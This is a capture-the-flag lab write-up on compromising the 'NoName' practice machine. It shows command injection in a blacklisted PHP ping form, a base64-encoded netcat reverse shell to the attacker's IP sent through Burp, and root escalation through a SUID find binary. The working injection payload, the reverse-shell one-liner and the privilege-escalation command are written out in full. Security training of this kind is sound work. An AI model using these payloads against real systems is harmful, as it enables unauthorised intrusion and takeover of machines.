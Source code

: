 # PG Play - NoName

#### Ip: 192.168.183.15
#### Name: NoName
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV   192.168.183.15
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-30 10:20 CDT
Nmap scan report for 192.168.183.15
Host is up (0.071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Looking at the site on port 80 we find a "fake admin area"

noname_site.png

Trying to insert a command we get the message `Fake ping executed`

Opening WireShark and listening for packets, we can see the site is indeed able to ping out tun0 address:

noname_ping.png

Lets capture this request in Burp and see if we can execute any other commands then `ping`

After quite awhile trying different command injection techniques, I was unable to to get any execution.

Taking a step back and trying some directory  fuzzing I find both an `/admin` page as well as a `/superadmin.php` page. 

`/admin` seemed to just be an image gallery. The page source however had an interesting comment: `<!--passphrase:harder-->`. We'll hold onto that and see if we can use it anywhere later.

### Exploitation

Navigating to `superadmin.php` we find a similar functionality as the "fake admin area", but this time we can see the ping being executing in our browser output:

noname_admin_ping.png

I can now perform command injection in this field, confirming the fact with: `127.0.0.1 | id`

noname_ex.png

Still struggling to get a reverse shell, I decide to check out the superadmin.php file and see several different strings being blacklisted:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

This will make getting a reverse shell a bit more tricky because so many characters are blacklisted. 

Capturing the request in Burp, we can bypass the blacklist at least for now by inserting apostrophes between charcters:

noname_bypass.png

But we'll still need to get a reverse shell here. Lets base64 encode a reverse shell onliner to try to bypass the blacklist:

I'll use:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.208 443 >/tmp/f
```

Base64 encode it, and then use `echo -n (rev_shell) | base64 -d | bash` to pass the command in Burp:

```text
pinger=127.0.0.1+|echo+-n+"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwOCA0NDMgPi90bXAvZg=="+|+base64+-d+|bash&submitt=Submit+Query
```

Running this with a NC listener going gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.183.15] 50730
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/var/www/html$ whoami
whoami
www-data
www-data@haclabs:/var/www/html$ hostname
hostname
haclabs
```

I can now grab the local.txt flag:

noname_local.png

### Privilege Escalation

Loading linpeas onto the target we see that `find` has the SUID bit set.

noname_lin.png

Heading over to GTFObins.com we find the exact command we need to exploit this misconfiguration:

noname_gtfo.png

`./find . -exec /bin/sh -p \; -quit`

We can execute this command, elevate our shell to root, and grab the final flag:

noname_root.png

Thanks for following along!

-Ryan

--------------------------------------------------------------------